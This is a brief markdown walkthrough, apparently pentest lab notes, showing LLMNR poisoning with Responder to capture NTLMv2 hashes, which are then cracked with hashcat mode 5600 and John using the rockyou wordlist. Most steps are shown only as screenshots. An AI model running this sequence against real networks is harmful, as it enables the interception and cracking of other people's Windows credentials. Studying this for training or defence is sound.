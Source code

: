 ## LLMNR Poisoning - Capturing NTLMv2 Hashes

$ ifconfig

![llmnr-capture-ntlmv2hash-1](https://github.com/user-attachments/assets/bb5bc126-3932-4d78-bf94-5bdab72f4557)

</br>

$ sudo responder -I eth0
![llmnr-capture-ntlmv2hash-2](https://github.com/user-attachments/assets/73eaf2a2-3ceb-4bfb-9e29-abcc2e1235d6)

![llmnr-capture-ntlmv2hash-3](https://github.com/user-attachments/assets/5301373a-0bf0-49e8-9830-d2a52a858acc)


## Trigger an LLMNR Event

![llmnr-capture-ntlmv2hash-4](https://github.com/user-attachments/assets/a75c11b5-bbb6-4470-a9db-da04be7a9f5a)


## Dumping NTLMv2 Hashes
![llmnr-capture-ntlmv2hash-5](https://github.com/user-attachments/assets/d26280ff-4be6-4117-aca5-c3ab9b35f163)


## Save Hash to a file
![llmnr-capture-ntlmv2hash-6](https://github.com/user-attachments/assets/212944c3-ccbc-4aab-aa8f-bd30558ed49f)


## Use Hashcat to crack the hash 

$ hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

![llmnr-capture-ntlmv2hash-7](https://github.com/user-attachments/assets/b686e734-88df-42f8-902f-05836a141529)

## Use John to crack the hash 

![llmnr-capture-ntlmv2hash-8](https://github.com/user-attachments/assets/022ef5f9-a64a-4fec-936f-b5a041849694)
